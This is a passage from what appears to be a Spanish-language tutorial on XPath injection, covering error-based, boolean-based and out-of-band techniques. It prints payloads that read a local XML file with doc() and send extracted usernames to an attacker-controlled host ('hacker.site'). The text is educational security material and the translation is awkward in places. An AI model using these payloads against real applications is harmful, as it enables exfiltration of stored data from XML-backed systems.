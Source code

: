 **error()** plantea un error y nunca devuelve un valor que es exactamente lo que necesitamos For O nuestras pruebas

Por ejemplo:

```bash
... and (if ( $employee/role = 2) then error() else 0 ) ...
```

> El error se puede mostrar en un **div**, como una página de 500, un código de estado HTTP personalizado, y / o muchos otros métodos

#### Boolean Based:

Al aprovechar varias técnicas de inferencia, tenemos que extraer información basada en un conjunto de deducciones enfocadas

* Los más utilizados son: \*\* técnicas basadas en booleanos\*\* y **time-based**, sin embargo en XPath no hay características que nos permitan manejar retrasos, por lo tanto sólo podemos utilizar los ataques booleanos.
* Por ejemplo: Las funciones de cuerda que usan Pattern Matching son útiles para reducir el espacio de búsqueda de personajes

→ http://www.w3.org/TR/xpath-functions/#string.match

Mientras que las funciones en valores de cadena, tales como **normalizar-unicode**, etc. Son útiles en el manejo de toda la codificación posible (imposible sin estas funciones).

→ http://www.w3.org/TR/xpath-functions/#string-value-functions

### OOB Exploitation

in Xpath 2.0 = http://www.w3.org/TR/xpath-functions/#func-doc

**doc($uri)**

* Si somos capaces de incluir un archivo, remota o localmente, en nuestra aplicación de destino, entonces podemos hacer un montón de cosas malas y, por supuesto, en este caso, podemos.

Con la función **doc**, podemos leer cualquier archivo XML local:

```bash
(substring((doc('file://protected/secret.xml')/*[1]/*[1]/text()[1]),3,1))) < 127
```

## HTTP Channel

Podemos engañar al sitio de la víctima para que envíe lo que no podemos leer a nuestro servidor web controlado.

Ejemplo con el doc ():

```js
doc(concat("http://hacker.site/oob/", RESULTS_WE_WANT))
doc(concat("http://hacker.site/oob/", /Employees/Employee[1]/username))
```

El URI tiene sus reglas y necesitamoscodificar las cuerdas para hacer el formato adecuado para enviar desde el sitio de la víctima al sitio de ataque.
